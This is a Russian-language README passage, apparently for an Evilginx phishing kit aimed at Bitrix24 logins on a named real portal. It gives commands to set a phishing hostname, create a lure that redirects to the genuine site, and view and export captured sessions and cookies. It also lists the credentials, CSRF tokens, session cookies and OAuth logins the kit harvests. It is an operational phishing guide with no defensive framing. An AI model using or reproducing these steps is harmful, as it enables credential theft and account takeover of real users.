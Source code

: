## ⚙️ Детальная настройка

### 1. Настройка hostname

```bash
# Установить ваш поддомен для фишинга
evilginx> phishlets hostname bitrix24-keydisk example.com
```

### 2. Создание lure (приманки)

```bash
# Создать приманку с перенаправлением
evilginx> lures create bitrix24-keydisk
evilginx> lures edit 0 redirect_url https://portal.keydisk.ru
```

### 3. Настройка дополнительных параметров

```bash
# Просмотр всех сессий
evilginx> sessions

# Получение захваченных данных
evilginx> sessions 1

# Экспорт cookies
evilginx> sessions export 1 /tmp/cookies.json
```

## 🔍 Особенности Bitrix24

### Извлекаемые данные:

#### Учетные данные:
- **Логин** (`USER_LOGIN`)
- **Пароль** (`USER_PASSWORD`)
- **CSRF токен** (`bitrix_sessid`)
- **Форма авторизации** (`AUTH_FORM`)

#### Cookies:
- `KEYDISK_SM_UIDH` - ID пользователя
- `KEYDISK_SM_LOGIN` - Логин пользователя  
- `KEYDISK_SM_CC` - Контрольная сумма
- `BITRIX_SM_SALE_UID` - ID продаж

#### Социальная авторизация:
- **Google OAuth**
- **Microsoft LiveID**
- **Facebook** (если настроено)
